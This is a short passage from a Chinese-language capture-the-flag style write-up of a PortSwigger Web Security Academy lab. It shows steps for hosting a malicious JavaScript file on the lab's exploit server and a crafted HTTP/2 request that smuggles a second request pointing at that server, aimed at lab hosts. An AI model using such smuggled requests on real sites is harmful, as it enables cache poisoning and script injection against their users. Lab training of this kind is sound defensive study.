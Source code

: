 [![](assets/1705287960-e4894be1f48b829fc9c14914abc1e531.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103439-f7f82980-b029-1.png)  
Step 4：随后我们使用靶场提供的恶意服务器主机托管一个恶意JS文件  
[![](assets/1705287960-7a9af3c3b33237cca6dc61956d2918cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103451-ff1f12aa-b029-1.png)  
Step 5：随后修改之前的请求数据包去请求恶意服务器上的resouces文件

```plain
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0ac2009903692136853e1b6701c3001b.exploit-server.net
Content-Length: 6

x=1
```

[![](assets/1705287960-db48530aebc72f676054fe5346ec4bb6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103510-0aa74f2a-b02a-1.png)  
随后我们可以在恶意服务器端的日志中看到有来自目标靶机的请求记录：
